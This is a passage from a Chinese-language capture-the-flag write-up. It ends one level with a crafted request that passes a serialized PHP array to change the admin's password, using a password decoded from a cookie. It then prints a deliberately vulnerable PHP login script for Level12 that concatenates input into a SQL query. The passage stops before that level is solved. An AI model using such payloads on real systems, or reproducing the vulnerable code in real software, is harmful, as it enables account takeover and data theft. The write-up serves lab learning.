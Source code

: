 首先对 `userInfo` 进行反序列化，随后要求两个参数 `oldPass` 和 `newPass`，后者随意设置，前者很容易得到。在 Cookie 中发现 `pass=OTA0OGM1MGUwOTJmM2IyZWRlYzM5NTFiZjdiZGFlNTA%3D; id=3`，进行 base64 解码和 md5 解密后得到 `oldPass=20151231`。

最后就是在 payload 中构造一个序列化的 userInfo 数组，payload:

```
changepassword.php?userInfo=a:2:{s:2:"id";i:1;s:4:"pass";s:8:"20151231";}&oldPass=20151231&newPass=11111111
```

### Level12

备份文件 `index.php.`：

```php
<?php
#GOAL: get password from admin;
error_reporting(0);

require 'DB_config_inc.php';

dvwaDatabaseConnect();

$_CONFIG['Security']=true;

//if register globals = on, undo var overwrites
foreach(array('_GET','_POST','_REQUEST','_COOKIE') as $method){
     foreach($$method as $key=>$value){
          unset($$key);
     }
}

function clear($string){
    //filter function here

}

$username = isset($_POST['username']) ? clear($_POST['username']) : die('Please enter in a username.');
$password = isset($_POST['password']) ? clear($_POST['password']) : die('Please enter in a password.');

if($_CONFIG['Security']){
     $username=preg_replace('#[^a-z0-9_-]#i','',$username);
     $password=preg_replace('#[^a-z0-9_-]#i','',$password);

}

if (is_array($username)){
    foreach ($username as $key => $value) {
        $username[$key] = $value;
    }
}

$query='SELECT * FROM users WHERE user=\''.$username[0].'\' AND password=\''.$password.'\';';

$result=mysql_query($query);

if($result && mysql_num_rows($result) > 0){
    echo('flag:{*********}');
    exit();
}
else{
    echo("<script>alert(\"Invalid password!\")</script>");
    exit();
}
```
